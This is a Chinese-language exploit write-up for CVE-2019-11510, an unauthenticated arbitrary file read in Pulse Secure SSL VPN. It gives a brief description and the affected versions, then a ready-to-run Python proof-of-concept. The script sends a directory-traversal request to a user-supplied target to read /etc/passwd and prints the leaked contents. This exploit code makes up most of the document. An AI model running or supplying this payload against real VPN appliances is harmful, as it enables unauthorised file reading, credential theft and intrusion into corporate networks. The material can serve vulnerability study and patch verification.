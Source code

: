 （CVE-2019-11510）Pulse Secure SSL VPN 任意文件读取
===================================================

一、漏洞简介
------------

Pulse Secure Pulse Connect Secure（又名 PCS，前称 Juniper Junos
Pulse）是美国 Pulse Secure 公司的一套 SSL VPN 解决方案。爆发的
CVE-2019-11510
该漏洞是由于所引入的一项通过浏览器访问其他端口的新功能缺乏安全限制所导致的，任意攻击者都可在未经身份验证的情况下利用该漏洞，读取系统敏感文件，获取
session、明文密码等敏感信息，从而非法入侵并操控
VPN，从而进一步威胁企业内网服务。

二、漏洞影响
------------

Pulse Secure PCS 9.0RX

Pulse Secure PCS 8.3RX

Pulse Secure PCS 8.2RX

Pulse Secure PCS 8.1R15.1

三、复现过程
------------

### poc

    Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py

![1.png](./resource/(CVE-2019-11510)PulseSecureSSLVPN任意文件读取/media/rId25.png)

    # -*- coding:utf-8 -*-
    # !/usr/bin/env python

    import sys
    import urlparse
    import requests
    import warnings
    import traceback

    reload(sys)
    sys.setdefaultencoding('utf-8')
    requests.packages.urllib3.disable_warnings()
    warnings.filterwarnings("ignore")

    def CVE_2019_11510(base_url):
        try:
            payloads, keywords = "/dana-na/../dana/html5acc/guacamole/../../../../../../../etc/passwd?/dana/html5acc/guacamole/", "root:x"
            r = requests.get(base_url + payloads, verify=False)
            r.close()
            if keywords in r.text:
                print "[✓] Found CVE-2019-11510 Vuln address(curl --path-as-is -s -k <target>):\n{}\n{}".format(
                    base_url + payloads, r.content)
            else:
                print "[x] Not Found Vuln!"
        except requests.exceptions.ConnectionError:
            pass
        except requests.ReadTimeout:
            pass
        except:
            traceback.print_exc()

    if __name__ == '__main__':
        if len(sys.argv) == 1:
            print '[+] Tip: python Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py <url>'
            sys.exit(0)
        url = sys.argv[1]
        CVE_2019_11510(urlparse.urlparse(url).scheme + "://" + urlparse.urlparse(url).hostname)
